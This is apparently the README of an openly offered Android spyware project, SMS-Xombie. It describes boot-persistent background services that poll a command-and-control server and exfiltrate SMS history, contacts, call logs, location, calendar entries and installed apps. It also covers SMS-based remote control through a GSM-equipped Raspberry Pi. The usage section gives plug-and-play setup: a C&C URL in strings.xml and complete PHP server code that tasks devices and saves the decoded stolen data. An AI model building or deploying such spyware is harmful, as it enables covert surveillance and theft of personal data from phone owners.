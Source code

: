 # SMS-Xombie ![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)
An Android spyware which interacts with a remote C&C server to exfiltrate phone data. Works with the latest SDK (29). Read the full article at https://artikrh.github.io/posts/sms-xombie

### Table of Contents
  - [1. Overview](#1-overview)
  - [2. Implementation](#2-implementation)
      - [2.1. Android Application](#21-android-application)
      - [2.2. Xombie Platform](#22-xombie-platform)
  - [3. Capabilities](#3-capabilities)
  - [4. Usage](#4-usage)

## 1. Overview
The objective of this project is the deployment of an Android application which interacts with a remote Command & Control (C&C) server as a spyware. SMS Xombie also features a Raspberry Pi equipped with a Global System for Mobile (GSM) antenna for the sole purpose of receiving commands from a controller mobile phone. In short, the app package—considered as a unique "zombie" device—communicates with the server using HyperText Transfer Protocol (HTTP) GET to fetch commands through JavaScript Object Notation (JSON) and HTTP POST to send sensitive data such as SMS logs, contacts book or geographical position back to the server – which gets parsed from a Hypertext Preprocessor (PHP) script.

## 2. Implementation
### 2.1. Android Application
The app itself contains the following two (2) modules:
* Fetcher Service - performs key operations in the background and does not require user interaction;
* Autostart Receiver - a component triggered by the boot completion event to invoke the above service.

When the application gets installed and opened, it will register the receiver which will be invoked during Android boot time `RECEIVE_BOOT_COMPLETED` (after system services get fully loaded that is). The main function of this `BroadcastReceiver` is to schedule an `AlarmManager` to start the Fetcher service periodically, thus making it persistent in the device.  

Within the Fetcher service, there are several parts of code starting from `onStartCommand()` which:
* Checks or stores permanently a random generated Universal Unique Identifier (UUID) to uniquely identify the device;
* Validates device's network connection and remote server reachability.

Initially, a device GUID is generated to uniquely identify a "zombie". This ID is later used as a query parameter in its regular GET requests to an API end-point (PHP) which responds JSON encoded data, hence, `JsonObject()` is used along `HttpURLConnection` to interact with the API. The response is handled by the `onPostExecute()` function if the connection was successful and there is a network connectivity as per the `isConnected()` boolean method. 

![PoC](https://i.imgur.com/Nfw5iOg.png)

If everything is correct, the mobile will respond to the task accordingly; whereas to send the data back, I used the Volley HTTP library which makes networking in Android apps easier.

![PoC](https://i.imgur.com/RqUMyry.png)

### 2.2. Xombie Platform

The application itself is a part of a larger system - the Xombie Platform - that we are going to elaborate next. The idea is simple, using a simple SMS message over the GSM network, we are able to control multiple devices that run the APK through the CC server. The implementation however, is complex due to the following process:

1. Implementation of a Rasberry Pi device with a GSM shield attached to fetch SMS messages from a controller mobile phone over the GSM network;
2. Build of an interconnection mechanism between the API and physical device;
3. The ability to distinguishably process incoming traffic from the other mobile devices and respond with the appropiate content of that device.

For the larger picture, the above procedure is illustrated in the following scheme:

![architecture](https://i.imgur.com/uQySpSE.png)

Initially, the controller device sends a command through an SMS message to retrieve all of the mobile phones geographical location (`getGeoLocation` keyword). The GSM shield, which can operate in Quad 850/900/1800/1900 MHz frequency bands, uses a local SIM card to receive the message, forward the SMS content to the [smsXlib](https://github.com/ButrintKomoni/smsXlib) API, which then queues the task to the hosting server. Considering the mobile devices sends HTTP requests periodically to check whether there is something to do, in this case, they would immediately send relevant latitude and longitude values as a POST request (given that the user has given the application location service permission).

### 3. Capabilities

As of now, the android app has these capabilities:
* SMS dump (`smsdump`) - Dumps the entire message history;
* Contacts dump (`contactsDump`) - Dumps the entire contact list;
* Call Logs Dump (`callsDump`) - Dumps call entries;
* Geographical Location Fetch (`getGeoLocation`) - Retrieves device's current latitude and longitude values;
* Application List Dump (`appsDump`) - Lists user installed applications;
* Device Information Retrieval (`deviceInfo`) - Outputs device hardware and software information;
* Calendar Entries Dump (`calendarsDump`) - Dumps existing calendar entries;
* Service Termination (`kill`) - Terminates the running service until the next boot.

### 4. Usage
The program is meant to basically plug in and play; you only have to modify the C&C URL value in the `res/values/strings.xml` resource file:
```
<resources>
    <string name="app_name">Xombie</string>
    <string name="cc_php">http://192.168.0.14/cc.php</string>
    <string name="milliseconds">60000</string>
</resources>
```
The serving PHP script should be set up as below:
```
<?php

if ($_SERVER["REQUEST_METHOD"] == "GET") {
	if (isset($_GET["uuid"]) && !empty($_GET["uuid"])) {
		$id = sanitize($_GET["uuid"]);
		if (preg_match("/[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}/i", $id)) {
			// Available: kill, smsDump, contactsDump, callsDump, getGeoLocation, appsDump, deviceInfo, calendarsDump
			$json = [ 'uuid' => $id, 'task' => 'getGeoLocation' ];
			header('Content-type:application/json;charset=utf-8');
			echo json_encode($json);
		}
		else {
			echo "Incorrect UUID format";
		}
	}
	else {
		echo "UUID not set";
	}
}
else if ($_SERVER["REQUEST_METHOD"] == "POST") {
	if (!isset($_POST['task']) || !isset($_POST['uuid']) || !isset($_POST['data'])) {
		die("Incorrect POST parameters");
	}

	$id = sanitize($_POST['uuid']);
	$task = sanitize($_POST['task']);
	$data = $_POST['data'];

	if (empty($id) || empty($task) || empty($data)) {
		die("Parameters cannot be empty");
	}

	$data = rawurldecode($data);
	$data = base64_decode($data);
	$data = gzdecode($data);

	file_put_contents('output.txt', $data);
}

function sanitize($data)
{
	$data = trim($data);
	$data = stripslashes($data);
	$data = htmlspecialchars($data);
	return $data;
}

?>
```

## Disclaimer
```
[!] Legal disclaimer: Usage of this application for attacking targets without
prior mutual consent is illegal. It is the end user's responsibility
to obey all applicable local, state and federal laws. I assume
no liability and are not responsible for any misuse or damage caused.
```
